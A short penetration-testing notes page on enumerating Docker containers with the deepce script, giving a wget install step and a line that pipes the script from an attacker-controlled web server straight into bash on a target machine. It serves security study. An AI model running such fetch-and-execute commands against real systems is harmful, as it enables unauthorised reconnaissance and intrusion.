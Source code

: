 # Docker Enumeration

## deepce

Deepce is an automated enumeration tool that can be used to scan docker containers, similar to [[Linux Enumeration#Linpeas|Linpeas]].

### Setup

Git repository: [https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce)

Install on host:

```bash
$ wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
```

### Run

[[Fundamental Skills#Python Webserver|Run a webserver]] on host machine to serve the script.

On target machine:

```bash
$ curl http://[HOST_IP]:[SERVER_PORT]/deepce.sh | bash
```

### Practical Example

Ippsec's [Laboratory Video](https://youtu.be/ozmHeApuSj8?t=1370)